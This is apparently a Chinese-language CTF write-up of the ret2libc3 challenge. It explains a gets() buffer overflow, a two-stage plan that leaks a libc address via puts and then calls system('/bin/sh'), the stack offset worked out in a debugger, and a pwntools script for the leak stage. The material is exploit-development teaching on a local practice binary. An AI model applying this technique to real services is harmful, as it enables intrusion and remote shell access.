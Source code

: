 接下来通过IDA pro查看反汇编反编译源码：

![image-20230424210152398](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304242101422.png)

可以看主函数中明显的缓冲区溢出漏洞入口`get(s)`，因此查找是否有可以利用的工具函数与字符串。但是没有在程序中查找到`/bin/sh`字符串或`system()`函数等易于利用的工具。根据本题要求，尝试利用外部的libc中比较齐全的代码。

想要利用作为外部共享库的libc，首先要考虑的就是其基地址，只有先泄露出动态链接库的基地址才能通过固定的偏移量调用库函数。仔细调查反汇编出的源码，发现在`main()`函数中调用了`puts()`函数，想到可以使用`puts()`函数泄露出libc基地址。

因此构思获得libc基地址的攻击流程如下：

1. 通过`gets()`构造缓冲区溢出攻击，劫持控制流。
2. 覆盖`main()`函数的返回地址为`puts()`函数的地址
3. 后续填入`main()`函数地址作为`puts()`函数的返回地址，以便`puts()`函数结束后重新运行`main()`函数
4. 后续填入got表中的`__libc_start_main`函数指针地址，以通过puts将动态运行时真实的`__libc_start_main`函数地址打印出来
5. 当`main()`函数执行完毕退出时，eip指针返回到`puts()`函数的地址并打印出`__libc_start_main`函数地址打。
6. 当`puts()`函数执行完毕，eip指针返回到`main()`函数的地址重新开始执行

接着需要通过`__libc_start_main`函数地址计算出libc基地址，从而获得`system`函数和"\bin\sh"字符串的地址。因此构思获得shell的攻击流程如下：

1. 接收上轮输出的`__libc_start_main`函数
2. 通过LibcSearcher工具计算出libc基地址以及进一步获得`system`函数和"\bin\sh"字符串的地址
3. 通过`gets()`构造缓冲区溢出攻击，劫持控制流。
4. 覆盖`main()`函数的返回地址为`system`函数的地址
5. 在后续填入一个32位的虚假返回地址
6. 在后续填入字符串`/bin/sh`的地址`0x08048720`
7. 当`main()`函数执行完毕退出时，eip指针返回到`system`函数的地址并读入后续的虚假返回地址和字符串参数，并最终启动一个子进程弹出shell供攻击者使用

### 攻击复现

接下来实现攻击，同上面题目，要先确定`main()`函数返回地址。

![image-20230424222544892](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251054940.png)

![image-20230424222643207](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251054589.png)

使用与上一题一样的步骤，在`call _gets`的地址`0x0804868A`处下断点，可以看到：栈指针寄存器esp此时的地址为`0xffffced0`，其存放的内容即字符串`s`的地址为`0xffffceec`；基址指针寄存器ebp的地址为`0xffffcf58`。通过计算可得，s 相对于 ebp 的偏移为 `0xffffcf58-0xffffceec=0x6c`。此时内存结构如下图所示：

![image-20230424105446557](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251054100.png)

根据上述思路编写第一轮运行的payload，构造内存结果如下：

![image-20230425154007262](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251540314.png)

接下来因为程序重新从main开始运行，因此需要继续构造第二轮运行的payload，需构造内存结果如下：

![image-20230424223330737](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251054888.png)

最后的payload如下：

```python
from pwn import *
from LibcSearcher import LibcSearcher

elf_ret2libc3 = ELF('./ret2libc3')

sh = process('./ret2libc3')

plt_puts = elf_ret2libc3.plt['puts']
got_libc_start_main = elf_ret2libc3.got['__libc_start_main']
addr_main = elf_ret2libc3.symbols['main']
offset = 0x6c + 4

payload = flat([b'a' * offset, plt_puts, addr_main, got_libc_start_main])
sh.sendlineafter('Can you find it !?', payload)
libc_start_main_addr = u32(sh.recv(4))
```